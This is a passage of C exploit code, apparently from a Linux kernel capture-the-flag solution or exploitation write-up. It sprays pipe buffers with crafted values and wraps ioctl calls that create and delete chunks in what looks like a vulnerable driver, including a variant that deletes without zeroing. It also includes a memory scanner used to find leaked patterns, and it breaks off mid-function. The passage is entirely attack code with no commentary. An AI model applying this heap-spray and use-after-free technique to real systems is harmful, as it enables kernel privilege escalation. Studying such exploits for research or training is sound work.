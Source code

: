 ```c
    char data[0x1000];
    memset(data, 0x41, 0x1000);

    for(int i = 0; i < 0x10; i++) {
        *(unsigned long *)(data + i*0x100 + 0x40) = 0x000f801f00008002;
    } 

    for (int i = 0; i < cnt; i++) {
        for (int j = 0; j < 0x10; j++)
            write(pipe_fd[i][1], data, 0x1000);
    }

    return pipe_fd;
}

void free_pipes(int **pipe_fd, int cnt) {
    for (int i = 0; i < cnt; i ++) {
        if (close(pipe_fd[i][0]) < 0) {
            perror("close");
            exit(-1);
        }
        if (close(pipe_fd[i][1]) < 0) {
            perror("close");
            exit(-1);
        }
        free(pipe_fd[i]);
    }
    free(pipe_fd);
}

int create(int fd, unsigned int idx) { 
    int ret = ioctl(fd, CREATE_CHUNK, (void *)&idx);
    if(ret < 0) {
        perror("ioctl");
        exit(-1);
    }
    return ret;
}

int delete(int fd, unsigned int idx) { 
    int ret = ioctl(fd, DELETE_CHUNK, (void *)&idx);
    if(ret < 0) {
        perror("ioctl");
        exit(-1);
    }
    return ret;
}

int delete_nozero(int fd, unsigned int idx) {
    int ret = ioctl(fd, DELETE_CHUNK_NOZERO, (void *)&idx);
    if(ret < 0) {
        perror("ioctl");
        exit(-1);
    }
    return ret;
}

int scan_mem(void *mem, unsigned long pattern, int sz) {
    for(int i = 0; i < sz-7; i++) {
        if(!memcmp(mem, &pattern, 0x8)) {
            return i;
        }
        mem += 1;
```